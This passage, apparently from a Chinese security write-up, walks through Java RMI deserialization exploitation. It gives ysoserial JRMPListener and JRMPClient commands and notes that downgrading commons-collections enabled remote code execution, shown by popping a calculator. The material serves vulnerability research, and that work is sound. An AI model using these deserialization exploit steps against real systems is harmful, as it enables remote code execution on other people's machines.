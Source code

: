 [![](https://p0.ssl.qhimg.com/t01fbfc6a4be2ee3ea5.png)](https://p0.ssl.qhimg.com/t01fbfc6a4be2ee3ea5.png)

### <a class="reference-link" name="rmi%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96rmi%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96"></a>rmi反序列化rmi反序列化

攻击者：

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsBeanutils1 "calc.exe"
```

客户端：

```
popen = subprocess.Popen(['java','-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', "JRMPClient", "127.0.0.1:9999"], stdout=subprocess.PIPE)
data = popen.stdout.read()
data.hex()
```

[![](https://p4.ssl.qhimg.com/t01fadb8d0558844e6d.png)](https://p4.ssl.qhimg.com/t01fadb8d0558844e6d.png)

原安装包下，由于common-collections的版本问题，并不能直接成功rce，为了达到rce的目的，我替换了common-collections3.2.2为common-collections3.1，然后按照上述步骤执行命令，成功执行命令，弹出了计算器。

[![](https://p2.ssl.qhimg.com/t012e8cdd5bf6d0b0c9.png)](https://p2.ssl.qhimg.com/t012e8cdd5bf6d0b0c9.png)

基于各种开发环境，并不一定能够达到rce的效果，而urldns作为一种默认通用类，也并没有将其认定为危险类，利用urldns也仅是作为验证目标机器是否能够出网。
